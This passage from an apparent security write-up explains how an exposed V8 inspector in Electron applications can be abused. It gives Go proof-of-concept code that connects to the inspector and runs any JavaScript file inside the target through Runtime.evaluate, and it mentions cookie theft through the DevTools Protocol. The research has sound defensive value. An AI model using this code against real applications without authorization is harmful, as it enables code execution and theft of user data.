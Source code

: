 While the full CDP exposes some gnarly stuff ([see MangoPDF's usage of Network.getAllCookies](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)), the bulk of those methods are not exposed in the Node version. For example, if you attempt to invoke the `Network.GetAllCookies` method, you'll get an RPC error:  `GetAllCookies: rpc error: 'Network.getAllCookies' wasn't found (code = -32601)`). 

However, the `Runtime` domain exposes something even more powerful, direct access to the JavaScript VM that's running in the target. Using the `Runtime.evaluate` method (or the pair of `Runtime.compileScript` and `Runtime.runScript`), we can execute JavaScript snippets within the context of the Electron application. We can execute some JS snippets remotely with some short PoC code:
```go
func main() {
	scriptPath := flag.String("script", "", "Path to JS script to evaluate in the target")
	inspectTarget := flag.String("inspect-target", "", "V8 inspector listener")
	flag.Parse()
	if *inspectTarget == "" {
		log.Fatalf("Must specify inspector target")
	}
	if *scriptPath == "" {
		log.Fatalf("Must specify script payload")
	}

	scriptData, err := ioutil.ReadFile(*scriptPath)
	if err != nil {
		panic(err)
	}

	ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
	defer cancel()
	devt := devtool.New(*inspectTarget)
	pt, err := devt.Get(ctx, devtool.Node)
	if err != nil {
		panic(err)
	}
	conn, err := rpcc.DialContext(ctx, pt.WebSocketDebuggerURL)
	if err != nil {
		panic(err)
	}
	defer conn.Close()
	c := cdp.NewClient(conn)

	eval := runtime.NewEvaluateArgs(string(scriptData))
	eval.AwaitPromise = BoolAddr(true)
	eval.ReplMode = BoolAddr(true)
	reply, err := c.Runtime.Evaluate(context.Background(), eval)
	if err != nil {
		panic(err)
	}

	if reply.ExceptionDetails != nil {
		// Dump the exception details if the script run was unsuccessful
		log.Fatalf("Exception(line %d, col %d): %v\n", reply.ExceptionDetails.LineNumber, reply.ExceptionDetails.ColumnNumber, reply.ExceptionDetails.Exception)
	}

	// discarding the error result, failure doesn't matter.
	// This will just handle cases where string results come
	// back doubled escaped, causing parsing issues in follow-up
	// tools like `jq`
	s, _ := strconv.Unquote(string((*reply).Result.Value))

	fmt.Printf("%s\n", s)
}
```
